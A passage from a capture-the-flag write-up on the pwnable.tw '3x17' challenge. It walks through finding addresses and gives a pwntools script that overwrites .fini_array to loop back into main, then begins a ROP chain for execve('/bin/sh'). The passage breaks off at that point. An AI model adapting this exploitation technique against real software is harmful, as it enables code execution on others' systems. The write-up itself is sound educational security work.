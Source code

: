 So with the image above, we know the function `__libc_csu_fini` is at `0x402960`. Analize that function and we know the address of `.fini_array` is at `0x4b40f0`:

![libc_csu_fini.png](imaegs/libc_csu_fini.png)

And with the images above, we know the address of `main` is `0x401b6d`. We know where to write and what to write, let's make a script to overwrite `.fini_array`:

```python
from pwn import *

exe = context.binary = ELF('./3x17', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
# p = remote('chall.pwnable.tw', 10105)

fini_array = 0x4b40f0
libc_csu_fini = 0x0402960
main = 0x401b6d

payload = flat(libc_csu_fini, main)
p.sendafter(b'addr:', f'{fini_array}'.encode())
p.sendafter(b'data:', payload)

p.interactive()
```

And we know it ask for input again:

![ask-input-again.png](images/ask-input-again.png)

That's great! Let's move on!

### Stage 2: Get shell with ROPchain

Now, we will need to create our payload first. Our payload will get input from user so that we can input string `/bin/sh` and then, execute syscall `execve` with inputted string to get the shell. Let's find some gadgets:
